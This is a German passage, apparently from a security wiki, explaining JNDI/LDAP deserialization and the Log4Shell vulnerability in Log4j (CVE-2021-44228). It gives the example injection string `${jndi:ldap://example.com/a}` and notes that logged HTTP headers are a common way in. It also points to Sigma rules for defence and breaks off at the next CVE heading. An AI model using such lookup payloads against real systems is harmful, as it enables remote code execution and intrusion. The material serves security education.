 #### Deserialisierungs-Exploit

![](<../../.gitbook/assets/image (275).png>)

Der **Exploit ist serialisiert** und wird deserialisiert.\
Falls `trustURLCodebase` auf `true` gesetzt ist, kann ein Angreifer seine eigenen Klassen in der Codebase bereitstellen, andernfalls muss er Gadgets im Classpath ausnutzen.

#### JNDI-Referenz-Exploit

Es ist einfacher, diesen LDAP mit **JavaFactory-Referenzen** anzugreifen:

![](<../../.gitbook/assets/image (1059).png>)

## Log4Shell-Schwachstelle

Die Schwachstelle wird in Log4j eingeführt, da es eine [**spezielle Syntax**](https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution) in der Form `${prefix:name}` unterstützt, wobei `prefix` einer von mehreren verschiedenen [**Lookups**](https://logging.apache.org/log4j/2.x/manual/lookups.html) ist, die `name` ausgewertet werden soll. Zum Beispiel ist `${java:version}` die aktuell laufende Version von Java.

[**LOG4J2-313**](https://issues.apache.org/jira/browse/LOG4J2-313) führte eine `jndi` Lookup-Funktion ein. Diese Funktion ermöglicht den Abruf von Variablen über JNDI. Typischerweise wird der Schlüssel automatisch mit `java:comp/env/` vorangestellt. Wenn der Schlüssel selbst jedoch ein **":"** enthält, wird dieses Standardpräfix nicht angewendet.

Mit einem **: im Schlüssel**, wie in `${jndi:ldap://example.com/a}`, gibt es **kein Präfix** und der **LDAP-Server wird nach dem Objekt abgefragt**. Und diese Lookups können sowohl in der Konfiguration von Log4j als auch beim Protokollieren von Zeilen verwendet werden.

Daher ist das einzige, was benötigt wird, um RCE zu erhalten, eine **anfällige Version von Log4j, die Informationen verarbeitet, die vom Benutzer kontrolliert werden**. Und da dies eine Bibliothek ist, die von Java-Anwendungen weit verbreitet verwendet wird, um Informationen zu protokollieren (einschließlich internetfähiger Anwendungen), war es sehr häufig, dass log4j beispielsweise HTTP-Header wie den User-Agent protokollierte. Log4j wird jedoch **nicht nur verwendet, um HTTP-Informationen zu protokollieren, sondern auch alle Eingaben** und Daten, die der Entwickler angegeben hat.

## Übersicht über Log4Shell-bezogene CVEs

### [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) **\[Kritisch]**

Diese Schwachstelle ist ein kritischer **untrusted deserialization flaw** im `log4j-core`-Komponenten, die Versionen von 2.0-beta9 bis 2.14.1 betrifft. Sie ermöglicht **remote code execution (RCE)**, wodurch Angreifer Systeme übernehmen können. Das Problem wurde von Chen Zhaojun vom Alibaba Cloud Security Team gemeldet und betrifft verschiedene Apache-Frameworks. Der ursprüngliche Fix in Version 2.15.0 war unvollständig. Sigma-Regeln zur Verteidigung sind verfügbar ([Regel 1](https://github.com/SigmaHQ/sigma/blob/master/rules/web/web\_cve\_2021\_44228\_log4j\_fields.yml), [Regel 2](https://github.com/SigmaHQ/sigma/blob/master/rules/web/web\_cve\_2021\_44228\_log4j.yml)).

### [CVE-2021-45046](https://nvd.nist.gov/vuln/detail/CVE-2021-45046) **\[Kritisch]**
